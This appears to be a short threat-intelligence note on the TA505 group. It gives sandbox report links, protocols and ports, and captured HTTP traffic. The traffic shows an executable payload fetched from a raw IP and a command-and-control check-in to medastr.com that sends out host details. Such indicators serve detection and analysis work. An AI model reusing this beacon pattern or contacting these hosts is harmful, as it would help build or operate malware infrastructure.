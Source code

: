 # TA505

# Links:
https://app.any.run/tasks/b6a9b3c9-1ca9-4464-b941-f64fa7d9ec90/
https://app.any.run/tasks/514933a2-7561-4e7a-92c1-d19b55ceffff/

# Protocols:
HTTP
DNS

# Ports:
80
53

# Sample:

```
GET /t1 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: 169.239.129.60
Connection: Keep-Alive

HTTP/1.1 200 OK
Server: nginx/1.6.2
Date: Mon, 24 Jun 2019 19:39:44 GMT
Content-Type: application/octet-stream
Content-Length: 411696
Last-Modified: Sun, 23 Jun 2019 15:22:17 GMT
Connection: keep-alive
ETag: "5d0f9929-64830"
Accept-Ranges: bytes

MZ......................@.............................................	.!..L.!This program cannot be run in DOS mode.

POST /docs/s.php HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded; charset=utf-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Content-Length: 137
Host: medastr.com

key=document&sysid=jun23Windows+7+Service+Pack+1+%28Version+6.1%2C+Build+7601%2C+32-bit+Edition%29_admin%3A44947&resp=knock&misc=&rights=
```
